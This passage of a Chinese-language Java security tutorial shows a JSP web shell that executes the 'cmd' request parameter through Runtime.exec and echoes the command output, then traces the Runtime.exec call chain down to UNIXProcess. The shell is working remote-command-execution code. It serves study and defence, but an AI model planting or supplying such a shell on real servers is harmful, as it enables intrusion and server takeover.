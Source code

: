 这样执行命令没有回显，我们可以通过字节输入流读取回显结果

示例：

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
  InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
  ByteArrayOutputStream baos = new ByteArrayOutputStream();
  int a;
  byte[] bytes = new byte[1024];
  while ((a = in.read(bytes)) != -1){
    baos.write(bytes,0,a);
  }
  out.write("命令结果：\n" + baos);
%>
```

<img src="image/image-20231031102415148.png" alt="image-20231031102415148" style="zoom:80%;" />

#### runtime.exec调用链：

`Runtime.exec(xxx)`调用链如下:

```java
org.apache.jsp.runtime_002dexec_jsp._jspService(runtime_002dexec_jsp:114)
java.lang.Runtime.exec(Runtime.java:347)
java.lang.Runtime.exec(Runtime.java:450)
java.lang.Runtime.exec(Runtime.java:620)
java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)
java.lang.ProcessImpl.start(ProcessImpl.java:134)
//如果是Linux则继续跟进
java.lang.UNIXProcess.<init>(UNIXProcess.java:247)
```
